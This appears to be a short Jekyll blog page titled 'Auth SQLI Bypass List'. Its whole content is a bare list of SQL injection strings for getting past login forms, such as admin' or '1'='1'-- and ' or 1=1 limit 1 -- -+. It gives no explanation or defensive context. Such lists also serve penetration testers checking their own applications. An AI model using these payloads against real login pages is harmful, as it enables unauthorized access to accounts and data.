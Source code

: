 ```yaml
---
title: /posts
layout: page
permalink: /posts
---
```


# Auth SQLI Bypass List

<pre>
  '="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or 1=1 limit 1 -- -+ 
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true-- 
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
")) or (("x"))=(("x
1=1 or 1=1--
or 1=1#
or 1=1/*
admin' --
admin''--
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
</pre>
